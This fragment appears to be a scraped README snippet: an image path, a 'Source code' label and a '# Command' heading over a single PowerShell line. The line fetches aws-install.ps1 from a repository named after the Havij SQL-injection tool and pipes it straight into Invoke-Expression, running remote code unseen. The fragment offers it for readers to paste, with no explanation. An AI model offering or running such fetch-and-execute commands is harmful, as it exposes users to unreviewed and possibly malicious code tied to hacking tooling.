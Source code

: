   # Command
```powershell
irm https://raw.githubusercontent.com/sahmsec/havij-dcontrol/main/aws-install.ps1 | iex
